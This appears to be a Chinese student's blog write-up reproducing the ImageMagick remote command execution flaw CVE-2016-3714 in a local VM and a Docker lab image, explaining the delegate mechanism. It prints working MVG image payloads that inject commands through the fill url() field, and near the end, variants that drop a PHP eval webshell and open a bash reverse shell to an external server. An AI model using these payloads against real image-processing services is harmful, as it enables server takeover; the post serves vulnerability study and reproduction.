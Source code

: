 ```yaml
---
title: ImageMagick远程命令执行（CVE-2016-3714）复现与理解
date: 2017-05-23 15:56:41
tags:
- 漏洞复现
categories: 
- 漏洞
---
```



第一次真正意义上的复现漏洞，花费了很多时间在漏洞平台的搭建上，在实验室大佬的提示下，自己的kali虚拟机上有convert也就是ImageMagick，然后。。。算了进入正题。


### ImageMagick简介

ImageMagick是一个免费的创建、编辑、合成图片的软件。它可以读取、转换、写入多种格式的图片。图片切割、颜色替换、各种效果的应用，图片的旋转、组合，文本，直线，多边形，椭圆，曲线，附加到图片伸展旋转。
这里是ImageMagick在Linux的convert的 应用http://www.cnblogs.com/ITtangtang/p/3951240.html

<!--more-->

### 参考资料：


初心师傅wp
https://ricterz.me/posts/Write%20Up:%20Remote%20Command%20Execute%20in%20Wordpress%204.5.1  
实验室大佬Isron：  
http://isron.cn/2017/03/29/CVE-2016-3714/  
Rcoll大佬：  
http://rcoil.me/2017/03/CVE-2016-3714/  
Freebuf：  
http://www.freebuf.com/vuls/104048.html  
推酷：  
http://www.tuicool.com/articles/InE7z2e




### 漏洞原理

在ImageMagick解析图片时，如果图片的地址是`https://`开头的，就调用InvokeDelegate，执行MagickCore/delegate.c的[407](https://github.com/ImageMagick/ImageMagick/blob/e93e339c0a44cec16c08d78241f7aa3754485004/MagickCore/delegate.c#L407)行
的一条命令
~~~C
<delegate decode=\"https\" command=\"&quot;wget&quot; -q -O &quot;%o&quot; &quot;https:%M&quot;\"/>
（&quot是html的 "）`
~~~
具体的代码执行，函数的调用过程在这篇文章上面（http://www.freebuf.com/vuls/104048.html ）
（PS：我看网上有几篇文章说的执行的是curl命令，在 /etc/ImageMagick/delegates.xml 文件中，内容如下  
~~~
ImageMagick cat /etc/ImageMagick/delegates.xml | grep https <delegate decode="https" command=""curl" -s -k -o "%o" "https:%M""/>`）   
~~~

而其中的%o和%M定义如下:
   
>  %i  input image filename  
>  %o  output image filename  
>  %u  unique temporary filename  
>  %Z  unique temporary filename  
>  %#  input image signature  
>  %b  image file size  
>  %c  input image comment  
>  %g  image geometry  
>  %h  image rows (height)  
>  %k  input image number colors  
>  %l  image label  
>  %m  input image format  
>  %p  page number  
>  %q  input image depth  
>  %s  scene number  
>  %w  image columns (width)  
>  %x  input image x resolution  
>  %y  input image y resolution

执行的命令就是 
~~~
"wget" -q -O  "%o" "https:%M"  
~~~

还有一个版本是curl的，2个命令的作用都是从网络上获取文件。
这个代码本意是从网络上这个地址获取这个图片，

~~~
"wget" -q -O  "1.png" "https://ss0.bdstatic.com/5aV1bjqh_Q23odCf/static/superman/img/logo/logo_white_fe6da1ec.png"
~~~
![](https://ooo.0o0.ooo/2017/06/15/594241ab2afa6.png)
ImageMagick官方补丁就是在%M这个地方加了个过滤函数，过滤关键字。


### POC

> 
push graphic-context  
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|id")'
pop graphic-context

- push和pop是用于堆栈的操作，一个进栈，一个出栈;
- viewbox是表示SVG可见区域的大小，或者可以想象成舞台大小，画布大小。简单理解就是根据后面得参数选取其中得一部分画面;
- fill url()是把图片填充到获取图片地址的元素内;


### 验证


测试环境kali2016
imagemagick版本为6.8.9-9，在漏洞影响范围内
新建一个空的exploit.png，用vi写入poc

> 
push graphic-context  
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|ls -al")'
pop graphic-context


直接使用convert命令
![](https://ooo.0o0.ooo/2017/06/15/5942412545a48.png)
可以明确地看到执行了ls -al命令，如果在web应用上，直接上传一个类似的图片，可以直接执行任何命令。

我这偷懒了，直接在本地有漏洞版本的虚拟机上验证了，没有搭建web服务。
最近也在学docker，然后看到p牛的项目Vulapp上有搭建好的环境，拉下来直接用（最近实验室网不太好，3-400M的东西不好下）。


> 获取镜像  
> docker pull medicean/vulapps:i_imagemagick_1  
> 运行镜像  
> docker run -d -p 8000:80 --name=i_imagemagick_1  
> medicean/vulapps:i_imagemagick_1  
> 进入交互式shell  
> docker run -t -i medicean/vulapps:i_imagemagick_1 "/bin/bash"  


这个镜像里面，该有的都有了
![](https://ooo.0o0.ooo/2017/06/15/594241c20bb35.png)
执行命令

> 
docker exec i_imagemagick_1 convert /poc.png 1.png


![](https://ooo.0o0.ooo/2017/06/15/594241efd3861.png)

效果跟上面一样

### 漏洞运用方式


- 命令执行：


> 
push graphic-context  
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|ls -al")'
pop graphic-context

可以直接在里面写入webshell：



> 
push graphic-context  
viewbox 0 0 640 480  
fill 'url(https://example.com/1.jpg"|echo \\'<?php eval($_POST[\\'Isron\\']);?>\\' shell.php")'  
pop graphic-context

也可以反弹shell：


> 
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|bash -i >& /dev/tcp/外网服务器ip/12340 0>&1")'
pop graphic-context


这个反弹shell命令原理
> bash -i >& /dev/tcp/外网服务器ip/12340 0>&1  

实验室大大大佬发了一篇[文章](http://byd.dropsec.xyz/2017/04/12/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B9%8B%E5%8F%8D%E5%BC%B9shell%E5%91%BD%E4%BB%A4%E5%88%86%E6%9E%90/)，让我茅塞顿开。

